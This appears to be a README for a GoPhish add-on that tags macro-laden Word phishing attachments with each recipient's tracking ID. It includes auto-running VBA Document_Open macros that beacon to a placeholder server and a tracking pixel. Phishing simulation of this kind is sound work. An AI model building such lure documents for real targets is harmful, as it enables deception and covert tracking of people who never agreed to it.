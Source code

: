 # gophish-macro-attachment
Exim transport_filter python script that puts a user's RID value where a macro can see it for macro phishing

# Usage
1. Requires Python 3.6 and [olefile](https://pypi.org/project/olefile/)
2. Install exim (listen on loopback); then add this script's path into `exim.conf` as a `transport_filter` for the `remote_smtp` transport (e.g. `transport_filter = "/usr/bin/python3 /path/to/script.py"`). See [here](https://www.exim.org/exim-html-current/doc/html/spec_html/ch-generic_options_for_transports.html) for more information.
3. Set up a GoPhish sending profile that points at this local Exim instance
4. Create an email attachment & template per the following

## Email template
The email template can be whatever you want, but must include the following exactly somewhere in the body: 

`<!-- RID: {{.RId}} -->`

This is how the script knows the user's RID. It will be removed by the script, so don't worry if you're sending a plain text email.

Next, add an attachment created as follows:

### Type 1 (OLE document format)

N.B.: The drawback to this form is that it does not support "Clicked link" status; you will only know if the user enabled macros.
However, it is simpler and is probably less suspicious (to spam filters, at least). 

1. Create a Word Document and add a macro like the following under ThisDocument: 

```
Private Sub Document_Open()
  Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
  URL = "http://YourGoPhishServer.com/?rid=" & Replace(ActiveDocument.BuiltInDocumentProperties("Comments"),".","")
  objHTTP.Open "POST", URL, False
  objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
  objHTTP.send("")
End Sub
```
2. Add whatever enticing content you want to the body. 
3. Save in Word 97-2003 format (.doc)
4. Right click the file in Explorer, choose Properties, click the Details tab
5. Set "Comments" to `{{.RidPlaceholder}}`

### Type 2 (MHT/MHTML format)

This is slightly more complex to create and more suspicious; however, it will show you if the user opened the document without enabling macros.

1. Create a Word Document, save as .MHT (Single file webpage)
2. Add whatever enticing content you'd like to the document.
3. Add a macro like the following under ThisDocument: 
```
Private Sub Document_Open()
  Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
  URL = "http://YourGoPhishServer.com/?rid=" & ActiveDocument.BuiltInDocumentProperties("Author")
  objHTTP.Open "POST", URL, False
  objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
  objHTTP.send("")
End Sub
```
4. Save
5. Open the .MHT file in Notepad/Notepad++
6. Look for the following lines near the top: 
```
 <o:DocumentProperties>
  <o:Author>John</o:Author>
  <o:LastAuthor>John</o:LastAuthor>
```
7. Replace the "Author" value with `{{.RIDPLACEHOLDER}}` (case-sensitive)
8. Look for the end of the body of the document (e.g. `</body>`)
9. Type the following right before the `</div></body>` portion:
```
<img src=3D"http://YourGoPhishServer/?rid=3D{{.RIDPLACEHOLDER}}" height=3D1 width=3D1/>
```

N.B. The "3D" parts are VERY IMPORTANT to this working properly. It's part of how the document is encoded/escaped. 
I would suggest copying it exactly as shown and just modifying the server URL.

10. Attach this file with the .MHT extension - it will be renamed to .doc by the script.


Have fun!
